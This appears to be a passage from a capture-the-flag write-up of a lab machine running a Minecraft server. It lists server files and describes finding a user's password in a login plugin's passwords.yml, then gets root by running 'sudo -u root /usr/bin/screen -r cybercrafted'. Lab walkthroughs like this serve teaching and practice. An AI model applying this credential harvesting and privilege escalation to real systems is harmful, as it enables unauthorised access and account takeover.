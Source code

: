 ```shell
/opt/minecraft/cybercrafted/world_the_end/session.lock
/opt/minecraft/cybercrafted/world_the_end/DIM1/region/r.-1.0.mca
/opt/minecraft/cybercrafted/world_the_end/DIM1/region/r.0.0.mca
/opt/minecraft/cybercrafted/world_the_end/DIM1/region/r.-1.-1.mca
/opt/minecraft/cybercrafted/world_the_end/DIM1/region/r.0.-1.mca
/opt/minecraft/cybercrafted/world_the_end/uid.dat
/opt/minecraft/cybercrafted/white-list.txt
/opt/minecraft/cybercrafted/craftbukkit-1.7.2-server.jar
/opt/minecraft/cybercrafted/world_nether/session.lock
/opt/minecraft/cybercrafted/world_nether/level.dat_old
/opt/minecraft/cybercrafted/world_nether/DIM-1/region/r.-1.0.mca
/opt/minecraft/cybercrafted/world_nether/DIM-1/region/r.0.0.mca
/opt/minecraft/cybercrafted/world_nether/DIM-1/region/r.-1.-1.mca
/opt/minecraft/cybercrafted/world_nether/DIM-1/region/r.0.-1.mca
/opt/minecraft/cybercrafted/world_nether/level.dat
/opt/minecraft/cybercrafted/world_nether/uid.dat
/opt/minecraft/cybercrafted/plugins/LoginSystem_v.2.4.jar
/opt/minecraft/cybercrafted/plugins/LoginSystem/settings.yml
/opt/minecraft/cybercrafted/plugins/LoginSystem/passwords.yml
/opt/minecraft/cybercrafted/plugins/LoginSystem/log.txt
/opt/minecraft/cybercrafted/plugins/LoginSystem/language.yml
/opt/minecraft/cybercrafted/logs/2021-06-28-2.log.gz
/opt/minecraft/cybercrafted/logs/2021-06-27-2.log.gz
/opt/minecraft/cybercrafted/logs/2021-09-12-3.log.gz
/opt/minecraft/cybercrafted/logs/2021-09-12-5.log.gz
/opt/minecraft/cybercrafted/logs/2021-06-27-3.log.gz
/opt/minecraft/cybercrafted/logs/2021-06-27-1.log.gz
/opt/minecraft/cybercrafted/logs/2021-09-12-4.log.gz
/opt/minecraft/cybercrafted/logs/2021-09-12-2.log.gz
/opt/minecraft/cybercrafted/logs/2021-06-28-1.log.gz
/opt/minecraft/cybercrafted/logs/2021-09-12-1.log.gz
/opt/minecraft/cybercrafted/server.properties
/opt/minecraft/cybercrafted/ops.txt
/opt/minecraft/cybercrafted/bukkit.yml
/opt/minecraft/cybercrafted/banned-ips.txt
/opt/minecraft/cybercrafted/banned-players.txt
```

We found the other user's password!:

![](Pasted%20image%2020240527141101.png)

Now we can get the user flag:

![](Pasted%20image%2020240527141257.png)

Now we run `sudo -l` to see capabilities:

![](Pasted%20image%2020240527141529.png)

Now I run this:

```shell
sudo -u root /usr/bin/screen -r cybercrafted
# The press Ctrl + A + C
```

We've got the root flag :D

![](Pasted%20image%2020240527141838.png)

==Machine pwned==